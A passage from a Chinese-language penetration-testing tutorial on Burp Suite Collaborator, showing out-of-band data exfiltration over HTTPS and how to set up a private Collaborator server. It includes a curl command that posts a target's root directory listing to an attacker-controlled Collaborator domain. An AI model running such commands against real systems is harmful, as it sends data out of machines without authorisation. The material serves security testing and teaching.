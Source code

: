 有没有觉得明文携带这些信息太不安全了？可是使用 https 安全传送，例如：

```bash
curl https://p1rf8orun99jx1pa9ayqx55quh07ow.burpcollaborator.net -d "`ls -al /`"
```

最后的结果和使用 http 一样。burp 的 dnslog 功能也是相当全的。

## 0x02 私有的 Collaborator server

上面举例的是使用 burp 的公共 Collaborator server，有时我们需要使用私有的 Collaborator server。使用公共的 Collaborator server，但是，信息存储在别人的服务器上是没有保密性可言的。还有一种情况，就是需要渗透的目标在内网且不与外网互通的情况下，就得使用私有的 Collaborator server。
下面我们来看看如何搭建私有的 Collaborator server。burp 提供了搭建 Collaborator server 的功能，在服务器上执行`sudo java -jar burp.jar --collaborator-server` 即带`--collaborator-server`参数运行 burp 即可启动服务。
然后在客户端配置，以此打开`Project options`→`Misc`→`Burp Collaborator server` ，选择`Use a private Collaborator server` ，在`Server location`中设置服务器域名，没有域名的情况下可以使用 IP，如果按 IP 地址指定服务器，则无法使用依赖于 DNS 解析的 Burp 与 Collaborator 相关的功能。 另外，默认情况下，Burp 通过 HTTPS 轮询 Collaborator 服务器，并强制实施 SSL 信任以防止中间人攻击。如果您的 Burp 实例由于网络或其他限制而无法通过 HTTPS 直接轮询，您可以选择轮询未加密的 HTTP。由于没有配置 ssl 证书，所以此处勾选`Poll over unencrypted HTTP`即使用未加密的 http 轮询。详情如下图：

![1536415372083](/images/1536415372083.png)
